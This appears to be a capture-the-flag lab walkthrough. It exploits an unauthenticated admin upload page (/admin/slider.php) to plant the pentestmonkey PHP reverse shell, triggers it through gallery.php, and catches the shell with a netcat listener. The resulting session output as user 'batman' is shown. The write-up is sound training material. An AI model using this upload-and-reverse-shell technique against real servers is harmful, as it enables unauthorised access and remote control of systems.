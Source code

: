 
Here we get some usefull directories attached to the admin directory.
If we try to visit each directory we will find some  directory redirect us to loggin page. but the directory `/admin/slider.php`. Do not have permission set. So we can access it.
-- -
>[!THEN]
> Visit the `/admin/slider.php`

In this page we can upload file and instructions specifies that it is image upload, but what if we can upload any file example a php file with malicious codes which can give us reverse shell.

>[!INFO]
>This is Broken Access Control Vulnerability, It allows unauthenticated users to view/access the pages for authenticated users


![](https://i.imgur.com/59NR64f.png)

Then i decided to upload the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) php reverse shell which will give us a reverse shell.

>[!info]
Before uploadding a reverse shell payload from pentestmonkey make sure you are listenning with netcat through the following

```bash
┌──(gemstone㉿kali)-[~/C7F5/thm/chain]
└─$ nc -nvlp 1234                            
listening on [any] 1234 ...
```

After uploading it it will prompt the following message 

![](https://i.imgur.com/G76WtKR.png)

Then for us to get the shell we have to make sure that the php reverse shell payload is executing and this can be done by know/identify where excatly the script is uploaded.
On the image above it seems the slider has been added to gallery and in the dir bruteforcing we got `gallery.php` so we will go to that page and refresh it.

![](https://i.imgur.com/09IOZ9e.png)

And after navigating t o gallery page, `Boom!!!` on our netcat we have a shell as user `batman`
```bash
└─$ nc -nlvp 4444                             
listening on [any] 4444 ...
connect to [172.17.17.62] from (UNKNOWN) [172.17.17.87] 33924
Linux owaspQuiz 5.4.0-110-generic #124-Ubuntu SMP Thu Apr 14 19:46:19 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 14:04:37 up  1:22,  0 users,  load average: 0.18, 0.54, 0.40
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1002(batman) gid=1002(batman) groups=1002(batman)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1002(batman) gid=1002(batman) groups=1002(batman)
$ whoami
batman
$ 
```
